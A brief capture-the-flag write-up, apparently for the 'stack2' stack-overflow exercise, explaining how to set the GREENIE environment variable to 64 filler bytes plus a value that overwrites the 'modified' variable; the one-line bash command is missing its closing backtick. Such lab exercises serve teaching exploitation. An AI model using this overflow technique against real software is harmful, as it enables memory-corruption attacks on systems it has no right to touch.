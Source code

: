 #### Stack2

---

As in "stack1", you need to overflow the buffer with 64 characters, and then you can write the variable "modified", but in this case you have a environment variable.

```bash
export GREENIE=`python -c 'print("X"*64 + "\x0a\x0d\x0a\x0d")
```
